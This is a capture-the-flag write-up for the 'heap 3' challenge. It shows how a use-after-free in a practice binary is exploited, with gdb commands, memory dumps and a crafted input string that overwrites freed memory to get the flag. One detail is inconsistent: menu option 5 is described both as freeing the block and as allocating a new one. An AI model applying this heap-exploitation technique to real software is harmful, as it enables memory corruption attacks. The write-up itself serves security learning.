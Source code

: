 # heap 3 #

## Description ##

This program mishandles memory. Can you exploit it to get the flag?
Download the binary here. Download the source [here](chall.c).

Additional details will be available after launching your challenge
instance.

## Hints ##

Check out "use after free"

## Solution ##

In the `init()` procedure dynamically allocates 35 bytes for a `struct object` at
address `x`. After using the **Free x** option in the menu, a new
`malloc()` could reuse that memory block. 

Let's use `gdb` to watch what happens: Start the program in one
terminal, get its PID, and use `gdb --pid PID` in a second terminal. 
First, set a breakpoint at a place `jmp` targets after the menu
choice, and check the memory around `x`:

``` gdb
b *main+143
x /40cb x
```

### Memory at `x` after `init()` ###

	0x7be6b0:       0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
	0x7be6b8:       0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
	0x7be6c0:       0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
	0x7be6c8:       0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        98 'b'  105 'i'
	0x7be6d0:       99 'c'  111 'o' 0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'

### Memory at `x` after `free()` ###

After choosing the menu option 5 for **Free x**, part of the block has
already been overwritten during calls to functions:

	0x7be6b0:       -66 '\276'      7 '\a'  0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
	0x7be6b8:       -47 '\321'      92 '\\' -50 '\316'      -22 '\352'      32 ' '  50 '2'  0 '\000'        110 'n'
	0x7be6c0:       0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'
	0x7be6c8:       0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        98 'b'  105 'i'
	0x7be6d0:       99 'c'  111 'o' 0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'

### Memory at `x` after allocating a new block ###

Now let's choose 5 to allocate a new block of memory, and make it the
same size as the `struct object` x pointed to, i.e. 35 bytes, and fill
it with a string such that "bico" is overwritten with "pico". As the
string needs to end with `\0`, this requires 30 arbitrary characters
(except `\0`) plus "pico":

	qwertyuiopasdfghjklzxcvbnm1234pico

Now this looks as wanted:

	0x7be6b0:       113 'q' 119 'w' 101 'e' 114 'r' 116 't' 121 'y' 117 'u' 105 'i'
	0x7be6b8:       111 'o' 112 'p' 97 'a'  115 's' 100 'd' 102 'f' 103 'g' 104 'h'
	0x7be6c0:       106 'j' 107 'k' 108 'l' 122 'z' 120 'x' 99 'c'  118 'v' 98 'b'
	0x7be6c8:       110 'n' 109 'm' 49 '1'  50 '2'  51 '3'  52 '4'  112 'p' 105 'i'
	0x7be6d0:       99 'c'  111 'o' 0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'        0 '\000'

Ready to choose menu option 4 and grab the flag.

## Learnings ##

It's important to choose the right size for the new memory block. If
it is too big, the system will have to place it at another address
very likely later in memory.
